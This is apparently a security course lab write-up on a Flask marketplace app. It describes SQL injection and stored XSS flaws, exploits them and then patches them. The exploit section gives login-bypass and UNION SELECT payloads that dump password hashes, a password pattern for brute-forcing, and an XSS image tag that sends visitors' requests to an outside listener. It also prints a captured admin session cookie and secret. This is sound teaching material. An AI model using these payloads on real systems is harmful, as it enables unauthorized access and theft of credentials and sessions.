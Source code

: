 ########### Vulnerabilities:########################################
There are two identified vulnerabilities in this program. SQL Injection vulnerability and XSS Attack vulnerability.   

1- SQL Injection

The vulnerability basically gives the attacker ability to inject malicious SQL commands such as reading protected password hashes, or unauthorized log in. There are other commands that can be done taking advantage of this exfiltration entrance.  


To be precise, The vulnerability existed here:
```
def auth_user(u, p):
    db = getattr(g, '_user_db', None)
    if not db:
        db = g._user_db = sqlite3.connect(user_db_path)

    cur = db.cursor()
    q = "SELECT name, surname, username, passwd, is_admin FROM users WHERE username='{0}';".format(u)
    cur.execute(q)
```

.format(u)  is a bad way of passing arguments to the SQL query. and the query will not be DB Safe because of the DB API will not be able to see what has been passed, but rather it will receive the query q as trusted source. 

---------------------------------------------------------------------------------------------------------
2- XSS Vulnerability 

The vulnerability gives the attacker a way of injecting HTML/javascript codes that can be triggered by whomever visits the application. In other words, attackers are able to insert XSS codes such as   <img src="javascript:alert('HEY I gotcha, XSS')"/>  and this is very basic, but as soon as the application are vulnerable to accepting this as valid inputs and represent them in the page exactly as they are, as the HTML markup will be presented as part of the page. And whenever these codes, gets parsed by the browser as HTML, the browser will trigger whatever the attacker intended to do.  


The vulnerability existed within the function that handles posting title, description,  buying/selling.  The inputs are not HTML sanitized before going into the database, therefore, whenever an arbitrary puts HTML there, it will be presented as part of the whole page which is considered a cross-site scripting attack.
```
@app.route('/submit', methods=['POST'])
def submit():
    if 'username' not in session:
        return redirect(url_for('index'))

    u = get_user(session['username'])
    if not u:
        return redirect(url_for('index'))

    title = request.form['title']
    desc = request.form['description']
    .....

////
def submit_post(u, t, d, a):
    db = getattr(g, '_market_db', None)
    if not db:
        db = g._market_db = sqlite3.connect(market_db_path)

    table = 'buying'
    author_col = 'buyer'
    if a == 'sell':
        table = 'selling'
        author_col = 'seller'

    cur = db.cursor()
    q = "INSERT INTO {0}({1}, title, description) VALUES(?, ?, ?);".format(table, author_col)
    .......
```

######################## Exploits: ########################################

1- SQL injection 


To exploit the SQL injection vulnerability, is by passing the lunched attack on the login page, on the username text input. 

The sql injection first is tested by putting a single quote  (')  , then the application will show an error which indicated the input is not sanitized properly. 

- Log in attack: without even seeing the original query we can assume this username is happened to be in a WHERE clause so if we close that value with a single quote then add OR 1=1 and comment the rest  - - 
so the actual attack is:

```
xxx'  or 1=1; - -  
```

Then we will log in.

- printing hashes, 
after seeing the original source code, we know the column names, so we could do a UNION select command to perform another select of what we want, but need to make sure we select with same number of columns and at the same time, we noticed it prints the username in case of a failed log in. So, we have to put the value that we need to show on the same index of the username in the original select command. 

We can actually do that blindly by this

```
ss' UNION SELECT 1,1,2,1,1 --;
```
and we can see it prints 2! 

So we need to put whatever we want to see in the place of 2

```
ss' UNION SELECT 1,1,passwd,1,1 from users --;
```
Then we get


    Invalid credentials, .GmvBi2oRGXto, try again

Now we get the user by a smile for clause

```
ss' UNION SELECT 1,1,username,1,1 from users where passwd=".GmvBi2oRGXto"--;
```

burnham.huxtable


So we know have credentials to login.

To get all of the hashes, I found a useful command which is an aggregated function called: 

```
xx' union select 1,1,group_concat("passwd",","),1,1 from users--  TO get the hashes
xx' union select 1,1,group_concat("usernames",","),1,1 from users-- To get the usernames
```
and resulting hashes/usernames will be in a corrosponding order.

The cracking program for brute forcing the hashes is designed by first looking at the regular expression used for making the passwords:
```
 \?[A-Z]{2}[a-z]{2}[0-9]{2}!
```
So I figure out that a password should be like  this  "? | Two capital letters | Two small letters | two digits | !"   e.g. "?AAaa99!" 



---------------------------------------------------------------------------------------------------

2- The XSS Attack

First we have to log in,  then we post this malicious code 
```
<img src="http://amplifier.ccs.neu.edu:30029/">
```
  This will actually trigger the browser of whomever visits the page to open our Deanonymize application. 
And then we will see the http requests going to our set up Deanonymize application and from there will get the http requests, and we can print out http cookie and remote addr from the http headers. 
The Deanonymize application is set with full logging and display the whole http requests, as soon as someone hits that url for more ease of use. I could also print that into a file. 


   
After the admins got visit the vulnerable app,   I got this into my user app

```
('REQUEST',
####Omitted 
  'HTTP_COOKIE': 'secret=ydZ7RvFc-2VeGnnWTMteVPzb6wsF_wAOXPRF5PPo5Ak=; session=eyJ1c2VybmFtZSI6ImFkbWluIn0.B9CX8Q.qaBiAufCG6XK-VYpaSuVHeUxXzc',
  'HTTP_HOST': 'amplifier.ccs.neu.edu:30029',
  'HTTP_REFERER': 'http://amplifier.ccs.neu.edu:11991/',
  'HTTP_USER_AGENT': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:35.0) Gecko/20100101 Firefox/35.0',
  'PATH_INFO': '/',
  'QUERY_STRING': '',
  'REMOTE_ADDR': '129.10.115.163',   # GOT THE IP HERE
  'REMOTE_PORT': 47307,
  'REQUEST_METHOD': 'GET',
  'SCRIPT_NAME': '',
  'SERVER_NAME': '0.0.0.0',
  'SERVER_PORT': '5000',

###Omitted 
```

So I got the secret value  + IP


####################### PATCH: ##############################################

1- SQL Injection

q = "SELECT name, surname, username, passwd, is_admin FROM users WHERE username = ? ;"
    cur.execute(q, (u,))

Instead of using format,  we use passing arguments to the execute command of the DB API function, this way we ensure it gets handled by the DB API and it will make the necessarily escaping.


-------------------------------------------------------------------------------------------


2- XSS Attack

instead of just inserting whatever user inputs of title+description into the db table, we use the escape method which is integrated into the template engine within Flask.


```
from jinja2 import utils
 # XSS Protection:  HTMML-Sanitize values of title, description:
    t = utils.escape(t)
    d = utils.escape(d)
```

This ensure that any HTML inputs will be sanitized and would not be stored as an actual HTML code that can be parsed by the browser when displayed later. Rather, it will escape it markup so for example ```"<"``` (I actually found a bug here where github does deal with this as html, and the rest of the data got ignored without putting this as a code with ` ` `) will be stored as the hex representation that shows this symbol which is "&lt;" and so on for the rest.


